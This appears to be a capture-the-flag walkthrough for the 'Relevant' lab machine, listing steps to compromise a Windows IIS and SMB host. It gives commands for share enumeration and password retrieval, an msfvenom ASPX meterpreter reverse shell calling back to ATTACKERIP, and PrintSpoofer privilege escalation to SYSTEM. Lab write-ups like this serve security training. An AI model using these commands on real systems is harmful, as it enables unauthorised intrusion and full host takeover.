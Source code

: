# Relevant

### **Tasks**:

1.  **Pre-Engagement Briefing**:

    1. Do usual nmap scan with service scanning - smb running on 445, IIS Server on 80,49663
    2. Connect to smb and enumerate shares - nt4wrksv seems unique and contains passwords.txt get that, the passwords are base64 encoded , decode them and save them for future use.&#x20;
    3. Scan with gobuster for directories in port 80,49664 with directory-list-2.3-medium.txt wordlist, you will find nt4wrksv directory in 49664 , try opening http://ip:49664/nt4wrksv/passwords.txt in browser you can see same file as in smb share. - This directory is somehow hosting files from smb share.
    4. Create msfvenom payload `msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=ATTACKERIP lport=1234 -f aspx -o shell.aspx` and upload to smbshare ,Now start meterpreter listener `use exploit/multi/handler` and  `set payload windows/x64/meterpreter_reverse_tcp`, configure LHOST and LPORT and run,and also open `http://ip:49664/nt4wrksv/shell.aspx in browser` - You now have shell !!!.
    5. Type `shell` in meterpreter to get cmd, Go to bob Desktop and `type user.txt` , then submit the user flag
    6. Type `whoami /priv` - SeImpersonatePrivilege enabled !!!
    7. Use `systeminfo` to get windows version and details  traditional juicy potato won't work here , So we need to use something called [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) or [direct binary link](https://github.com/dievus/printspoofer), upload PrintSpoofer.exe to smb share , again go to windows shell in meterpreter `cd C:\inetpub\wwwroot\nt4wrksv` , run `PrintSpoofer -i -c "cmd"` to get root shell.
    8. Go to Administrator's Desktop and `type root.txt` to get root flag and submit.



**References**:

1. [https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/)
